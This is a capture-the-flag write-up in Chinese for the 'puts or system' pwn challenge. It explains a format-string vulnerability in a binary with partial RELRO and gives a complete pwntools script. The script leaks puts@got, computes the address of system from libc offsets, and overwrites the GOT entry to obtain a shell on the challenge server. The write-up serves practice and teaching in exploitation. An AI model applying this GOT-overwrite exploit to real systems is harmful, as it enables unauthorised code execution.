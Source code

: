 # W3 puts or system

## 文件分析

下载`putsorsys`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序可多次输入，且存在格式化字符串漏洞；在printf后，执行了`puts("/bin/sh")`  
根据题意，将puts调用替换为system调用就可以拿到shell

由于程序relro保护为partial，因此可以直接将`puts@got`地址改为system地址即可

## 踩过的坑

%n系列写地址输出过的字符是**累计的**，所以计算失误就会导致攻击失败，
因此可以把小的数字放在前面，大的数字放在后面，方便计算

## EXPLOIT

```python
from pwn import *
elf = ELF('putsorsys')
sh = remote('node4.buuoj.cn', 29595)
putsGot = elf.got['puts']

# payload 1
sh.sendline(b'1')
sh.sendlineafter(b'it', b'%9$sxxxx' + p64(putsGot)) # get puts@got

sh.recvuntil(b':\n')
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
#addr = putsGotAddr - 0x179bf0 + 0x14f760
addr = putsGotAddr - 0x180ed0 + 0x150d60 # libc given, shift puts to system
print(hex(addr))

# payload 2
sh.sendline(b'1')
highAddr = (addr & 0xff0000) >> 16
sh.sendlineafter(b'it', f'%{highAddr}c%11$hhn%{(addr & 0xffff) - highAddr}c%12$hn'.ljust(24, '0').encode() + p64(putsGot + 2) + p64(putsGot))

sh.interactive()
```

## 第一次三血！

<img src="../assets/3rdBlood.jpg" width="40%" title="好耶">

Done.
